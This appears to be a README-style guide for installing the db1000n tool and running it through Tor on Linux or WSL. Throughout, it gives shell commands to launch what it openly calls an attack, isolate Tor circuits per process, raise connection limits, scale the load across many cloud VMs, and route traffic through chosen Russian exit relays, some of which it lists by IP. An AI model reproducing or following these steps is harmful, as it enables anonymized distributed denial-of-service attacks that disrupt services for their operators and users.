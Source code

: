If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC.

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.17/db1000n_0.8.17_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP used
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated. 
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
